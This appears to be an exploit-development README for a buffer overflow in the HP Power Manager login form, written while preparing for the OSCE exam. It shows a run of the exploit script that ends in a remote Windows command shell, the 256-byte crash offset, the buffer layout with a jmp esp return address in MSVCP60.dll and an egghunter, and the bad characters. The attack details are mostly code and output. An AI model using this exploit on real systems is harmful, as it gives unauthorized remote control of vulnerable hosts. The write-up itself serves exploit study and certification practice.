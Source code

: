 # HP-Power-Manager

    dev@ubuntu:~# python HPPowerManager.py 192.168.126.209
    [+] Trying to exploit 192.168.126.209
    [+] Sending payload
    [+] Trying to connect to target
    [+] Please wait to thirty seconds...

    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>

An overflow in the Login of the post request  
    HtmlOnly=true&Login=admin{}&Password=admin&loginButton=Submit+Login

Sending 256 bytes of data will trigger this overflow. 
Was just studying the exploit originally created by ryujin , which you can find here: https://www.exploit-db.com/exploits/10099/  
Have to prep for that OSCE Exam yo!

There was also more bytes that could crash the service which leads to an SEH overflow, however, all the addresses had a nullbyte in them.   
Interestingly, used the nullbyte to help me find the amount of this crash as so:

    crash = "A" * 256
    crash += pack('<L', 0x7608BCCF)
    crash += "B" * 20
    crash += egghunter
    crash += '\x00'

Without the null, I wasn't able to hit my breakpoint after 256 bytes

Just used the same address as ryujin did: 

    Message=  0x7608bccf : jmp esp |  {PAGE_EXECUTE_READ} [MSVCP60.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v6.02.3104.0 (C:\Program Files\HP\Power Manager\MSVCP60.dll)
    
There were no bad characters with the exception of '\x00'

Useful Notes:  
256 bytes to crash the app  
0x7608bccf : jmp esp in MSVCP60.dll  
egghunter : haha  
badchars : \x00  

Tested and working on Windows XP, and Windows 7
